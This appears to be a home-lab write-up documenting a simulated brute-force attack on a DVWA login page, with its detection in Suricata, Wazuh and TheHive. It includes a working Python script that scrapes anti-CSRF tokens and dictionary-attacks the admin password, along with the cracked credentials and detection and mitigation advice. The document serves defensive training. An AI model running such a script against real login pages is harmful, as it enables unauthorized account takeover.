





# Stage 02 — Brute Force

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Phase 1 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-1-rattling-the-doorknobs-reconnaissance--web-exploitation)
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/6.png) · [alert](../../06-Resources/screenshots/thehive-alert/4.png)

## Objective

Crack the admin password on DVWA's login page (`/login.php`) using an automated dictionary attack, dealing with the anti-CSRF token protection on each request.

## Commands

```bash
# 1. Author custom CSRF-handling brute-force automation script in Python
nano dvwa_bruteforce.py

# Script implementation:
cat << 'EOF' > dvwa_bruteforce.py
import requests
import re
import sys

target = "http://192.168.56.30/login.php"
username = "admin"
wordlist = "/usr/share/wordlists/rockyou.txt"

session = requests.Session()

def get_token():
    r = session.get(target)
    match = re.search(r"user_token'\s*value='([a-f0-9]+)'", r.text)
    return match.group(1) if match else None

def try_login(password):
    token = get_token()
    if not token:
        print("[!] Could not find token")
        return False
    data = {
        "username": username,
        "password": password,
        "Login": "Login",
        "user_token": token
    }
    r = session.post(target, data=data)
    if "Login failed" not in r.text:
        print(f"[+] SUCCESS: {username}:{password}")
        return True
    return False

with open(wordlist, "r", encoding="latin-1") as f:
    for line in f:
        password = line.strip()
        print(f"[*] Trying: {password}")
        if try_login(password):
            break
EOF

# 2. Execute brute-force attack against target portal
python dvwa_bruteforce.py
```

## What happened

1. **The CSRF obstacle:** Out-of-the-box brute-force tools like Hydra or basic curl loops fell flat here because DVWA protects its login form with an anti-CSRF token (`user_token`). Every time you request the login page, the server generates a new token that must be sent back with the credentials. To solve this, I wrote a quick Python automation script (`dvwa_bruteforce.py`).
2. **Handling the tokens:** The script uses `requests.Session()` to keep cookies alive. For every attempt, it first sends a GET request to `/login.php`, scrapes the fresh `user_token` with regex, and bundles it into the POST body with `username=admin` and the candidate password.
3. **Finding the password:** I ran the script against the target using common entries from `rockyou.txt`. After trying standard guesses (`123456`, `12345`, `123456789`), the script tried `password`. The server accepted it, the "Login failed" text vanished, and the script printed `[+] SUCCESS: admin:password`.

## Evidence

### Attack Screenshots


*Figure 2.1: Custom Python brute-force script designed to parse user_token anti-CSRF values.*


*Figure 2.2: Execution output discovering valid administrative credentials (admin:password).*

### Alert Screenshots


*Figure 2.3: TheHive alert inbox displaying authentication requests and correlated web security telemetry on host dvwa.*


*Figure 2.4: Suricata rule 100600 / ET INFO python-requests inbound alert capturing automated brute force requests targeting /login.php.*


*Figure 2.5: Alert detail view showing high-frequency POST requests to /login.php from 192.168.232.135 (Alert wzb-6a22425401).*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive alert / Reference | Severity | Status |
|---|---|---|---|---|---|
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/login.php] [ET INFO User-Agent (python-requests) Inbound to Webserver]` | Custom Rule 100600 / Rule 100200 / SID 2017515 | `wzb-6a22425401` (`4.png`, `4.1.png`, `3.png`) | Medium (2) | **Detected** |
| Wazuh (Web Access) | High-frequency authentication attempts to `/login.php` | Rule 100200 | SIEM Indexed / TheHive Alert | Medium (2) | **Detected** |

## MITRE ATT&CK

| Tactic | Technique | ID |
|---|---|---|
| Credential Access | Brute Force: Password Guessing | T1110.001 |
| Credential Access | Brute Force: Credential Stuffing | T1110.004 |

## Detection opportunities

- **Threshold-Based Login Failure Rules:** Monitor web access logs for rapid consecutive login failures from a single IP (e.g., more than 5 failed POST requests to `/login.php` within 60 seconds).
- **Flagging Automated Script User-Agents:** Suricata and Wazuh can easily spot generic library User-Agents like `python-requests/2.32.5` hitting sensitive login endpoints.
- **Rate Limiting & Account Lockout:** Enforce brute-force defenses like Fail2ban, CAPTCHA, or temporary account lockouts after consecutive failed attempts.
- **Multi-Factor Authentication (MFA):** Even if an attacker guesses the password, MFA stops them at the door.

## Notes

- We quickly uncovered valid administrative credentials (`admin:password`).
- While this brute-force attack succeeded, the flurry of rapid login requests generated clear alerts across Suricata and Wazuh, highlighting why rate limiting and MFA are non-negotiable.
